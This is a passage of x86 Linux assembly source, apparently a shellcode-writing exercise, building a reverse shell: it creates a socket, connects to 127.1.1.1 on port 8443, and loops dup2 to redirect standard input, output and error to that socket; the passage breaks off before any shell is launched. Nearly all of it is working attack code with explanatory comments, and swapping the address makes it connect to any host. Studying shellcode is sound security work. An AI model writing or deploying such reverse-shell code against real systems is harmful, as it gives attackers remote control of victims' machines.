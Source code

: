    pop ebx             ; ebx = 0x1

    ; parameters for socket 
    ;
    ; (AF_INET, SOCK_STREAM, protocol)
    ; stack:
    ;   ecx => esp
    ;   0x02  - AF_INET
    ;   0x01  - SOCK_STREAM
    ;   0x00  - protocol   
    ; socket args            
    push ecx            ; ecx = 0
    push byte 0x01      ; SOCK_STREAM = 0x01
    push byte 0x02      ; AF_INET = 0x02 
    mov ecx, esp        ; copy arguments on the stack to ecx
    int 0x80            ; return sockfd to eax

    ; store return sockfd on eax to edi
    ; that will be use for next instruction
    xchg edi, eax       ; store return sockfd on eax to edi

connect:
    ; initiate a connection on a socket
    ; socketcall
    push byte 0x66      ; socketcall = 102 ~ 0x66
    pop eax             ; eax = 0x66
    push byte 0x03      ; SYS_CONNECT = 3 ~ 0x03
    pop ebx             ; ebx = 0x03

    ;>>> "".join([ hex(int(y))[2:].zfill(2) for y in '127.1.1.1'.split('.')[::-1] ])
    ;'0101017f'
    ; struct sockaddr_in
    push 0x0101017f     ; 127.1.1.1
    push word 0xfb20    ; PORT 8443  ~ 0x20fb - in reverse network byte order 0xfb20
    push word 0x02      ; AF_INET = 2 ~ 0x02 
    mov ecx, esp        ; ecx pointing to top of stack esp  

    ; connect arg
    ; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
    push byte 0x10      ; sizeof sockaddr = 16 ~ 0x10
    push ecx            ; &server_addr
    push edi            ; sockfd
    mov ecx, esp        ; ecx pointing to top of stack esp  
    int 0x80

    xor ecx, ecx        ; zeroing ecx
    push byte 0x02
    pop ecx             ; ecx = 0x02

    push edi
    pop ebx

; Duplicate stdin/stdout/stderr to client socket
;
; dup2(new_sock, 0) - stdin
; dup2(new_sock, 1) - stdout
; dup2(new_sock, 2) - stderr
;
; al  = 0x3f
; ebx = client socket new_sock
; ecx = 0x2 => 2, 1, 0 - counter
dup2:
    ; dup2
    mov al, 0x3f        ; dup2 = 63 ~ 0x3f
    int 0x80
    dec ecx             ; 2, 1, 0
    jns dup2            ; continue to jump to dump2 label (loop) until the signed flag is set
